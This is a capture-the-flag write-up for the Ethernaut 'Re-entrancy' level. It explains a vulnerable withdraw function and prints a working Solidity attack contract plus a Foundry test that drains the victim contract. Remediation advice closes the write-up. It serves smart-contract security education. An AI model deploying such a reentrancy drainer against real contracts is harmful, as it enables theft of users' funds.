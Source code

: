 # Level 10 - Re-entrancy

## Objectives

- The goal of this level is for you to steal all the funds from the contract.

## Contract Overview

The `Reentrance` contract works like a bank. Contract users can send funds to any account that they specify. The owner of such an account can later withdraw the money. It is also possible to check the current balance of any account.

## Finding the weak spots

The weak spot is the `withdraw` function. It looks like:

```solidity
  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }
```

This function is taking some Ether in `_amount` and making sure that the balance of the user who initiated the function call should be greater than or equal to the amount.

It proceeds to send the requested `_amount` via a low-level `call` function that will use all the remaining gas to execute the operation. It is then making an external call to `msg.sender's` address. This is a big RED FLAG as this address can be controlled by our user since we are the `msg.sender`.

After the external call, it updates the balance of the `msg.sender` decreasing the amount. Since this is happening after the external call, we can exploit this behavior so that the function never reaches this line to update user balance.

We can see two big problems here!

- The contract uses the Solidity version < 8.0 and this mean that every math operation could suffer from underflow/overflow attacks. The contract also use `SafeMath` for `uint256` and for example in the `donate` function this problem does not exist. But in `withdraw` they do not use it when the function updates the final balance of the sender. The reason to not use it would be that the contract know for sure (under normal circumstances) that it cannot underflow because of the `if (balances[msg.sender] >= _amount)` check.
- The second problem is that `Reentrance` contract does not follow the [Checks-Effects-Interactions Pattern](https://docs.soliditylang.org/en/latest/security-considerations.html#use-the-checks-effects-interactions-pattern).

In practice, what we should always do to follow Checks-Effects-Interactions Pattern (if applicable):

1. Perform all the checks needed
2. Perform all the state updates needed
3. Emit any event needed
4. Only after all these things perform the needed external call

By not following the Checks-Effects-Interactions Pattern and not using any Reentrancy Guard (like OpenZeppelin: ReentrancyGuard) this function is prone to a Reentrancy Attack.

## Potential attack scenario (hypothesis)

Attacker can create a malicious contract that will call the `donate()` and `withdraw()` functions of victim contract. Because `balances` are updated after making the `call`, attacker can re-enter the `withdraw` function, pass the `balances` check again and drain the contract balance to zero by repeating the process.

## Plan of the attack

1. Attacker creates the malicious contract that will call the `donate()` function with some initial Ether to deposit some balance into victim contract's account and than will call the `withdraw()` function using the same amount as donated balance to validate the if condition.
2. Attakcer will create a `receive()` function in the malicious contract so when the `withdraw()` function tries to send the attacker the Ether, he can reenter back into the function by calling it again.
3. Once this is done, the `withdraw()` function will try to execute the external call `msg.sender.call{value:_amount}("");` and send the `_amount` value to attacker contract's address.
4. Attacker contract will see the incoming transaction and the `receive()` function will handle it. `receive()` function will make a call to the vulnerable contract's `withdraw()` function. This will keep on repeating until the victim contract is drained.

## Malicious contract (ReentranceAttack.sol)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import "./Reentrance.sol";

contract ReentranceAttack {
    Reentrance public reentranceContract;

    constructor(address _reentranceContract) public {
        reentranceContract = Reentrance(payable(_reentranceContract));
    }

    function attack() public payable {
        require(msg.value > 0, "donate something!");
        reentranceContract.donate{value: msg.value}(address(this));
        reentranceContract.withdraw(msg.value);
    }

    receive() external payable {
        reentranceContract.withdraw(msg.value);
    }
}
```

## Proof of Concept

Here is a simplified version of the unit test exploiting the vulnerability ([complete version here](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/test/10-Reentrance.t.sol))

```solidity
        ReentranceAttack reentranceAttack = new ReentranceAttack(
            address(reentranceContract)
        );
        emit log_named_uint(
            "Attackers's ether balance before attack",
            address(reentranceAttack).balance
        );

        emit log_named_uint(
            "Attacker contract balance in the victim contract before donation and withdrawal",
            reentranceContract.balanceOf(address(reentranceAttack))
        );

        emit log_string("Starting the exploit...");

        emit log_string("Starting the attack...");
        reentranceAttack.attack{value: 1 ether}();

        emit log_named_uint(
            "Attacker contract balance in the victim contract after donation and withdrawal",
            reentranceContract.balanceOf(address(reentranceAttack))
        );

        emit log_named_uint(
            "Victim contract ether balance after withdrawal",
            address(reentranceContract).balance
        );

        emit log_named_uint(
            "Attackers's ether balance after attack",
            address(reentranceAttack).balance
        );

        // Test assertion
        assertEq(address(reentranceContract).balance, 0);
```

Here are the logs from the exploit contract:

![alt text](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/img/Reentrance.png)

## Recommendations

- Apply the checks-effects-interactions pattern. Making interactions before the state changes introduce an opening for the reentrancy attack.
- Use SafeMath for arithmetic operations.
- Use 0 address checks on functions that transfer funds.

## References

- [Blog Aditya Dixit](https://blog.dixitaditya.com/series/ethernaut)
- [Blog Stermi](https://stermi.xyz/blog/ethernaut-challenge-10-solution-reentancy)
- [D-Squared YT - Ethernaut CTF Series](https://www.youtube.com/watch?v=_ylKN2R_o-Y&list=PLiAoBT74VLnmRIPZGg4F36fH3BjQ5fLnz)
- [Smart Contract Programmer YT - Ethernaut](https://www.youtube.com/playlist?list=PLO5VPQH6OWdWh5ehvlkFX-H3gRObKvSL6)
- [Mastering Ethereum book](https://github.com/ethereumbook/ethereumbook)
- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)

## Acknowledgements

The structure of my reports is based on the insights provided by:

- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)
- [Joran Honig Twitter thread](https://twitter.com/joranhonig/status/1539578735631949825?s=20&t=Kp6iDNXfRKQUBbsb_Yj5SQ)
